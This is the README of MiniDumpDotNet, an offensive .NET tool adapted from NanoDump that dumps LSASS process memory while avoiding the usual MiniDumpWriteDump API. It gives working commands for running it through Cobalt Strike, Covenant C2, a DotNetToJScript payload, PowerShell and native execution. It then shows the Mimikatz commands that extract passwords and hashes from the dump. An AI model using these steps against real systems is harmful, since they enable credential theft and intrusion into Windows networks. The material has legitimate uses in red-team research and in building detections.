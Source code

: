# MiniDumpDotNet

.NET injectable LSASS dumper, adapted from **[NanoDump](https://github.com/helpsystems/nanodump)**

The goal of this project is to provide .NET CLR injectable LSASS process dumping capbility that avoids usage of the Win32 API call MiniDumpWriteDump() (and associated Win32 API usage patterns).

## Features

- Developed in Visual C++ with CLR support
- Reduced size LSASS dump (similar to NanoDump)
- Compiler intrinsics removed to accommodate Pure CLR compilation
- Pre-configured to support injection via:
	- Assembly.Load() (e.g. Cobalt Strike "execute-assembly" and Covenant "Assembly" commands)
	- [DotNetToJScript](https://github.com/tyranid/DotNetToJScript)/[GadgetToJscript](https://github.com/med0x2e/GadgetToJScript) COM-based Memory Stream injection
	- PowerShell non-GAC Type import
	- Binary execution

## Building

### Clone

```<insert clone command>```

### Build

This project was implemented with Visual Studio 2015, but should be supported by any Visual Studio compiler that can build VS C++ CLR code. Building the solution will generate both a binary executable, as well as a .NET class library.

``` Build -> Build Solution ```

**or**

```CTRL+SHIFT+B```

![screenshot](screenshots/vs_build.png)

## Usage: Covenant

This project was largely adapated to fill a needed gap within [Covenant C2](https://github.com/cobbr/Covenant).

### Example Command:

```
Assembly /assemblyname:"\"" /parameters:"620 dump.dmp"
```

![screenshot](screenshots/covenant_execution.png)

## Usage: Cobalt Strike

Although you can use this payload with `execute-assembly`, you may have better luck with BOF-based projects referenced below.

### Example Command:

```
execute-assembly /path/to/binary <PID> <DUMPFILE>
```

![screenshot](screenshots/cobalt_strike_execution.png)

## Usage: DotNetToJscript Build/Execution

MiniDumpDotNet can be integrated into both [DotNetToJScript](https://github.com/tyranid/DotNetToJScript) and [GadgetToJscript](https://github.com/med0x2e/GadgetToJScript) commands:

### Payload Generation:

Download and build the DotNetToJScript project in Visual Studio. Then use the generator to create the payload `minidumpdotnet.js`.

```
DotNetToJScript\DotNetToJScript\bin\Debug\DotNetToJScript.exe -d -v v4 -l JScript -o minidumpdotnet.js -c MiniDump.MiniDump MiniDumpDotNet\minidumpdotnet.dll
```

![screenshot](screenshots/jscript_before_dump.png)

### Modification:

Update minidumpdotnet.js to include the PID of the LSASS process: `o.DumpPid(620, "dump.dmp");`

![screenshot](screenshots/jscript_update.png)

### Payload Execution:

```
cscript minidumpdotnet.js
```

![screenshot](screenshots/jscript_after_dump.png)


## Usage: PowerShell Execution

PowerShell can be used to load arbitrary .NET class libraries which can be used to run this tool as well.

### Example Command:

```
[string]$assemblyPath = ".\minidumpdotnet.dll"
Add-Type -Path $assemblyPath
[MiniDump.MiniDump]$a = New-Object -TypeName 'MiniDump.MiniDump'
$a.DumpPid(620, "dump.dmp")
```

![screenshot](screenshots/powershell_execution.png)

## Usage: Native Execution

When all else fails, native execution is worth a shot.

### Example Command:

```
minidumpdotnet.exe 620 dump.dmp
```

![screenshot](screenshots/binary_execution.png)


## Mimikatz Extraction

Extracting credentials (or hashes) from the dump is performed just as you would normally.

### Example Command:

```
mimikatz.exe
sekurlsa::minidump dump.dmp
sekurlsa::logonPasswords
```

![screenshot](screenshots/mimikatz_offline.png)


## Notable Modifications

Many of the opsec-specific features (e.g. SysWhispers, handle duplication, corrupt MiniDump header, etc) from **NanoDump** were removed to produce the first pass at this project. Some of these features may be reintroduced at a later date. Additionally, the resulting source code for this project was reorganized, and various Windows structures, enums and constants were added to avoid include conflicts.

## Credits

- The developers at [HelpSystems](https://github.com/helpsystems) for the [NanoDump](https://github.com/helpsystems/nanodump) project
- [rooku](https://github.com/rookuu) for the [BOFs](https://github.com/rookuu/BOFs) project, which contains a general purpose reimplementation of MiniDumpWriteDump based on ReactOS
- The developers for [ReactOS](https://github.com/reactos) for providing reference code for the MiniDumpWriteDump API
- All other developers of the amazing offensive security products and tools mentioned above
